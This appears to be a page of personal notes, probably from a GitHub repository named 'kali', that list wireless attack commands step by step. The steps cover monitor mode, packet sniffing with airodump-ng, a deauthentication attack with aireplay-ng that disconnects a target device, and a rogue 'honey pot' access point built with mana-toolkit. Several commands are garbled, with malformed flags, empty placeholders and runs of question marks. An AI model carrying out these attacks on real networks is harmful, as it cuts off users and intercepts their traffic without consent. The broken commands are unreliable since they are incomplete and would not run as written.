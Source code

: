 # kali

iwconfig wlan0
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig wlan0
airodump-ng wlan0
'ctrl-c' stop sniffing
ID-power-beacons
airodump-ng --channel[channel] --bssid[] -write
airodump-ng --channel 2 --bssid[] --write test -apcwlan0 ???????????????
wireshark open file ??????????

deauth attack--disconnects device from network
spoof our MAC address to the target client MAC address (pretend to be him)
send deauthentication packet to router
simultaneously spook our MAC address to the access point MAC address (router) and tell the target client you need to re-authenticate yourself

airodump-ng --channel[] --bssid[] wlan0
aireplay-ng --deauth 10000 -a -c wlan0

Fake access point (honey pot)
apt-get install mana-toolkit
gedit /etc/mana-toolkit/host apd-mana.conf
gedit /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
test2
